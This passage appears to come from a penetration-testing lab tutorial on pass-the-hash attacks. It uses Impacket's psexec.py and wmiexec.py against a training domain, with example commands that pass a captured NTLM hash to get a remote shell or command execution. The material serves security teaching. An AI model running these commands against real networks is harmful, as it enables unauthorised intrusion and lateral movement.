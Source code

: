 ###### Example:
```bash
psexec.py inlanefreight.local/forend@192.168.1.10 -hashes aad3b435b51404eeaad3b435b51404ee:4d3a8f7ac6b98bfa8a23d7a1abec5d99
```

In this example, we pass the NTLM hash for the `forend` user. If the user has administrative privileges, this will give you an interactive shell.

![ad72b](/images/72b.png)

---

##### Using `wmiexec.py` with a Captured Hash

Similar to `psexec.py`, `wmiexec.py` can also perform pass-the-hash attacks using the NTLM hash.

###### Example Command:
```bash
wmiexec.py <domain>/<username>@<target-ip> -hashes <LMHASH>:<NTLMHASH>
```

###### Example:
```bash
wmiexec.py inlanefreight.local/forend@192.168.1.10 -hashes aad3b435b51404eeaad3b435b51404ee:4d3a8f7ac6b98bfa8a23d7a1abec5d99
```

This will execute commands on the target without installing a service. Like `psexec.py`, `wmiexec.py` will pass the NTLM hash for authentication.

---

##### What’s Happening?
